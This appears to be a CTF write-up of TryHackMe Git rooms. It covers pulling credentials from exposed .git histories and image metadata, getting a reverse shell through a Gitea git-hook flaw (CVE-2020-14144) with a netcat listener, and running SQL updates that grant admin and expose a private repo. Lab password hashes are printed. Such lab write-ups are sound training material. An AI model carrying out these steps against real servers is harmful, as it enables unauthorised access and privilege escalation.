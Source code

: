 # Git

## TryHackMe

### Git Happens

* Opened website in a browser
* DotGit extension automatically identified .git extension
  * view-source:http://10.10.60.56/.git/config
  * Downloaded all the files found in the .git folder
* Unzipped files and navigated into the directory containing the .git folder
* Viewed the git logs
  * `git log`
  * `git log --pretty=oneline`
* Viewed the specific commits in the logs
  * `git show <COMMIT ID>`
  * `git show e56eaa8e29b589976f33d76bc58a0c4dfb9315b1`
* Found cleartext credentials to login where the password was also the flag

```javascript
-      function login() {
-        let form = document.getElementById("login-form");
-        console.log(form.elements);
-        let username = form.elements["username"].value;
-        let password = form.elements["password"].value;
-        if (
-          username === "admin" &&
-          password === "Th1s_1s_4_L0ng_4nd_S3cur3_P4ssw0rd!"
-        ) {
-          document.cookie = "login=1";
-          window.location.href = "/dashboard.html";
-        } else {
-          document.getElementById("error").innerHTML =
-            "INVALID USERNAME OR PASSWORD!";
-        }
-      }
```

### Git and Crumpets

Used `curl` against the host on port 80 which showed us a 301 permanent redirect

`curl -v http://10.10.135.79`

The output also mentioned setting up repos at git.git-and-crumpets.thm as adding that to the /etc/hosts file

Opened git.git-and-crumpets.thm in a browser.

Registered for an account.

Viewed publicly available repos and their commits.

Found message for commit `9a151a065797e3ae8e4d86da9d32d032cdec6885` that the user mentioned "I kept the password in my avatar to be more secure."

Downloaded the avatar.

`wget http://git.git-and-crumpets.thm/avatars/3fc2cde6ac97e8c8a0c8b202e527d56d`

Used exiftool to get information out of the .png file and found a potential password.

```bash
exiftool 3fc2cde6ac97e8c8a0c8b202e527d56d.png 
...
Description    : My 'Password' should be easy enough to guess
```

Logged into the Gitea UI as the scones user: `scones:Password`

Now I can modify the Settings for the repository scones/cant-touch-this

#### Exploitation (CVE-2020-14144)

I can modify the Git Hooks be placing in a reverse shell into the post-receive hook.

Started a nectat listener: `sudo nc -lvnp 443`

Modified README.md, committed the changes, and got a reverse shell as the git user.

The database data is located in `/var/lib/gitea/data`

We can change the permissions for the scones user to access the root repository or change the root repository permissions to be public.

#### Change the Scones user permissions

```sql
sqlite3 gitea.db
select * from user;
1|hydra|hydra||hydragyrum@example.com|0|enabled|9b020d3e158bc31b5fe64d668d94cab38cadc6721a5fdf7a4b1fb7bf97021c5e68f56bd9bd44d5ce9547e5e234086342c4e4|pbkdf2|0|0|0||0|||XGySX7uBlc|3C4NzJWN9e|en-US||1618386984|1621615239|1621614217|0|-1|1|1|0|0|0|0|0|d91f03c868d38ecf84ab3cc54f876106|hydragyrum@example.com|1|0|0|0|1|0|0|0|0|unified|arc-green|0
2|root|root|groot|root@example.com|0|enabled|2181d2b5fbf1859db426bcb94d97851d9a0e87a5eb47c5edc7f92bffc45b679e554c8367084f379e59936b68c0d770823ec9|pbkdf2|0|0|0||0|||2VK8fSxvIZ|5e5xPrzvBr|en-US||1618391049|1621716065|1621716065|1|-1|1|0|1|0|0|0|0|b2b218891f86ea980812a5b934ecec1a|root@examle.com|1|0|0|0|1|0|0|0|0|unified|gitea|0
3|scones|scones||withcream@example.com|0|enabled|8d0386b217e0f1ad5a1012d879ce93c9d77fd79d888410fdee9e76ec58d6fa017042906dd9a2ea498d3fd5a7486a73875660|pbkdf2|0|0|0||0|Her Majesty's Secret Service||IF60pw0rVc|13y4Vtc2AH|en-US|I like scones.|1618492621|1625292211|1625292211|0|-1|1|0|0|1|0|0|0|3fc2cde6ac97e8c8a0c8b202e527d56d|jackel@example.com|1|0|0|0|1|0|0|0|0|unified|gitea|0
4|test|test||test@test.thm|0|enabled|d3463d9c205751364af7850bca7956d0f5cc0eb125a097db54fd0087eec31cec1912245e57fdfc53423a89e6684a15f8939a|pbkdf2|0|0|0||0|||oe4oKzc3mk|EgtShiimON|en-US||1618526457|1618526530|1618526457|0|-1|1|0|0|0|0|0|0|15c9bc2cfbc7b7fd0b627422d8189173|test@test.thm|0|0|0|0|0|0|0|0|0|unified|gitea|0
5|user101|user101||test@mail.com|0|enabled|7233dc67184372521c3e39c824016db859d608025ad5a731f1dbed0d399753c17de21921618a385804ddc6bc57893049d555|pbkdf2|0|0|0||0|||BFMsu8xkcI|mameP7va9K|en-US||1625291416|1625291644|1625291416|0|-1|1|0|0|0|0|0|0|97dfebf4098c0f5c16bca61e2b76c373|test@mail.com|0|0|0|0|0|0|0|0|0|unified|gitea|0

UPDATE user SET is_admin=1 WHERE id=3;
```

#### Change the root repository permissions

```sql
sqlite3 gitea.db
SELECT * FROM repository;
1|1|hydra|hello-world|hello-world|Hello World||0||master|1|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|23159|1|0|null|0||1618390571|1618491347
2|2|root|backup|backup|||0||master|1|0|0|0|0|0|0|0|0|0|0|1|0|0|0|0|0|0|0|0|25612|1|0|null|0||1618493101|1618494415
3|3|scones|cant-touch-this|cant-touch-this|Stop! Hammer time!||0||master|1|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|23712|1|0|null|0||1618494644|1618496989
SELECT sql FROM sqlite_master WHERE type='table' AND tbl_name='repository';
CREATE TABLE `repository` (`id` INTEGER PRIMARY KEY AUTOINCREMENT NOT NULL, `owner_id` INTEGER NULL, `owner_name` TEXT NULL, `lower_name` TEXT NOT NULL, `name` TEXT NOT NULL, `description` TEXT NULL, `website` TEXT NULL, `original_service_type` INTEGER NULL, `original_url` TEXT NULL, `default_branch` TEXT NULL, `num_watches` INTEGER NULL, `num_stars` INTEGER NULL, `num_forks` INTEGER NULL, `num_issues` INTEGER NULL, `num_closed_issues` INTEGER NULL, `num_pulls` INTEGER NULL, `num_closed_pulls` INTEGER NULL, `num_milestones` INTEGER DEFAULT 0 NOT NULL, `num_closed_milestones` INTEGER DEFAULT 0 NOT NULL, `num_projects` INTEGER DEFAULT 0 NOT NULL, `num_closed_projects` INTEGER DEFAULT 0 NOT NULL, `is_private` INTEGER NULL, `is_empty` INTEGER NULL, `is_archived` INTEGER NULL, `is_mirror` INTEGER NULL, `status` INTEGER DEFAULT 0 NOT NULL, `is_fork` INTEGER DEFAULT 0 NOT NULL, `fork_id` INTEGER NULL, `is_template` INTEGER DEFAULT 0 NOT NULL, `template_id` INTEGER NULL, `size` INTEGER DEFAULT 0 NOT NULL, `is_fsck_enabled` INTEGER DEFAULT 1 NOT NULL, `close_issues_via_commit_in_any_branch` INTEGER DEFAULT 0 NOT NULL, `topics` TEXT NULL, `trust_model` INTEGER NULL, `avatar` TEXT NULL, `created_unix` INTEGER NULL, `updated_unix` INTEGER NULL)

UPDATE repository SET is_private=0 WHERE id=2;
SELECT * FROM repository;
1|1|hydra|hello-world|hello-world|Hello World||0||master|1|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|23159|1|0|null|0||1618390571|1618491347
2|2|root|backup|backup|||0||master|1|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|25612|1|0|null|0||1618493101|1618494415
3|3|scones|cant-touch-this|cant-touch-this|Stop! Hammer time!||0||master|1|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|24715|1|0|null|0||1618494644|1618702858
```

Back in the Gitea UI we now have access to the root / backup git repository

Switching Branch to dotfiles we find a SSH Private Key and the file it is in is the name of the passphrase for logging in via SSH with the private key.

### harder

* After finding the subdomain pwd.harder.local and then navigating to it in a browser, the DotGit extension automatically identified .git extension.
* Downloaded all the files found in the .git folder
* Unzipped files and navigated into the directory containing the .git folder
* Viewed the git logs
  * `git log`
  * `git log --pretty=oneline`

Viewed the specific commits in the logs

```bash
kali@kali:~/ctf/thm/harder/pwd_harder_local$ git log --pretty=oneline
9399abe877c92db19e7fc122d2879b470d7d6a58 (HEAD -> master) add gitignore
047afea4868d8b4ce8e7d6ca9eec9c82e3fe2161 add extra security
ad68cc6e2a786c4e671a6a00d6f7066dc1a49fc3 added index.php
```

We see some ineresting infromatinon the the commit "add extra security"

```
git show 047afea4868d8b4ce8e7d6ca9eec9c82e3fe2161

```

#### Other...

## References

{% embed url="https://git-scm.com/docs" %}
